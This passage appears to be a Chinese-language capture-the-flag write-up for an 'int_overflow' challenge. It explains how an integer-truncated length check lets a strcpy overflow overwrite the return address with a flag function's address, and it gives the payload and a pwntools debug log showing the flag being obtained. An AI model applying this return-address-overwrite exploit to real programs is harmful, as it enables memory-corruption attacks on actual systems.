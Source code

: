 主要来解释一下payload：payload = "A" * 0x14 + "AAAA" + p32(cat_flag_addr) + "A" * 234

首先我们在puts("Please input your passwd:");之后向栈中写入payload，由于整数溢出的性质，使得输入的passwd的长度被截断为0x6==（dec）6，因此程序会通过验证。

之后执行strcpy函数，将输入的payload拷贝到dest空间中：

+ "A" * 0x14：垃圾字符填充栈
+ "AAAA"：填充ebp
+ p32(cat_flag_addr)：覆盖返回地址
+ "A" * 234：绕过程序对输入字符的验证。

payload执行结果如下：

```python
➜  int_overflow sudo python exp.py 
[sudo] password for ubuntu: 
[+] Starting local process './pwn' argv=['./pwn'] : pid 7712
[DEBUG] Received 0x7a bytes:
    '---------------------\n'
    '~~ Welcome to CTF! ~~\n'
    '       1.Login       \n'
    '       2.Exit        \n'
    '---------------------\n'
    'Your choice:'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1c bytes:
    'Please input your username:\n'
[DEBUG] Sent 0x5 bytes:
    'xctf\n'
[DEBUG] Received 0x26 bytes:
    'Hello xctf\n'
    '\n'
    'Please input your passwd:\n'
[DEBUG] Sent 0x107 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  94 86 04 08  41 41 41 41  │AAAA│AAAA│····│AAAA│
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000100  41 41 41 41  41 41 0a                               │AAAA│AA·│
    00000107
[+] Receiving all data: Done (35B)
[DEBUG] Received 0x8 bytes:
    'Success\n'
[DEBUG] Received 0x1b bytes:
    'flag{wow_you_pwn_me_2333!}\n'
[*] Process './pwn' stopped with exit code -11 (SIGSEGV) (pid 7712)
Success
flag{wow_you_pwn_me_2333!}

➜  int_overflow 
```





